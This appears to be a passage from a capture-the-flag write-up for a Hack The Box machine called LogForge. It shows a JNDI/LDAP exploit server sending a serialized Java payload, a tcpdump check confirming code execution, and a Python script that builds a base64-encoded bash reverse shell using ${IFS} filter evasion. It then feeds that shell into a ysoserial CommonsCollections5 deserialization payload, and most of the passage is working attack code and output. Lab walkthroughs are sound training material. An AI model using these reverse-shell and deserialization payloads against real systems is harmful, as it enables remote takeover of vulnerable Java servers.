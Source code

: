 It worked.

```bash
...
----------------------------Server Log----------------------------
2024-08-11 11:09:05 [JETTYSERVER]>> Listening on 10.10.14.3:8180
2024-08-11 11:09:05 [RMISERVER]  >> Listening on 10.10.14.3:1099
2024-08-11 11:09:05 [LDAPSERVER] >> Listening on 0.0.0.0:1389
2024-08-11 11:09:41 [LDAPSERVER] >> Send LDAP object with serialized payload: ACED00057372002E6A617661782E6D616E6167656D656E742E42616441747472696275746556616C7565457870457863657074696F6ED4E7DAAB632D46400200014C000376616C7400124C6A6176612F6C616E672F4F626A6563743B787200136A6176612E6C616E672E457863657074696F6ED0FD1F3E1A3B1CC4020
...
```

```bash
$ sudo tcpdump -n -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:09:42.066879 IP 10.10.11.138 > 10.10.14.3: ICMP echo request, id 1, seq 1, length 64
11:09:42.066917 IP 10.10.14.3 > 10.10.11.138: ICMP echo reply, id 1, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

Lets create a reverse shell payload.

```python
import base64

def generate_revshell(ip, port):
    rev_shell_command = f"bash -i >& /dev/tcp/{ip}/{port} 0>&1"
    encoded_rev_shell_command = base64.b64encode(rev_shell_command.encode()).decode()
    return f'bash -c echo${{IFS}}{encoded_rev_shell_command}|base64${{IFS}}-d|bash'

print(generate_revshell('10.10.14.3', 9999))
```

We need to use the following on `ysoserial`.

```bash
$ /bin/python3.12 /home/kali/Desktop/HTB/LogForge/gen_shell.py
bash -c echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzk5OTkgMD4mMQ==|base64${IFS}-d|bash
```

Reverse it and you get the payload.

```bash
$ echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzk5OTkgMD4mMQ== | base64 -d  
bash -i >& /dev/tcp/10.10.14.3/9999 0>&1
```

```bash
$ docker run ysoserial CommonsCollections5 'bash -c echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzk5OTkgMD4mMQ==|base64${IFS}-d|bash' > ~/Desktop/HTB/LogForge/shell.ser
```
